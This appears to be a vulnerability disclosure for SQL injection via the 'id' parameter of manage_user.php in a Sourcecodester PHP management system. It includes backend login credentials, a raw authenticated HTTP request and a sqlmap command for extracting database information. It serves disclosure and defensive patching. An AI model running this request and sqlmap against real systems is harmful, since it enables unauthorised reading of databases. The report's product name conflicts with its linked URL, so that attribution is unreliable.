


### SQL injection vulnerability exists in Sourcecodester House Rental Management System

official website:https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

version:v1.0

route:/index.php?page=manage_user&id=1

related code file:manage_user.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the manage_user.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.



#### 2.Vulnerability verification and exploit

After mayuri.infospace@gmail.com/rootadmin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
GET /index.php?page=manage_user&id=1 HTTP/1.1
Host: 10.15.6.184:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ob0bdimnlspngt0ldq4p4s4ed0
Connection: close


```

python sqlmap.py -r 1.txt --batch --current-db


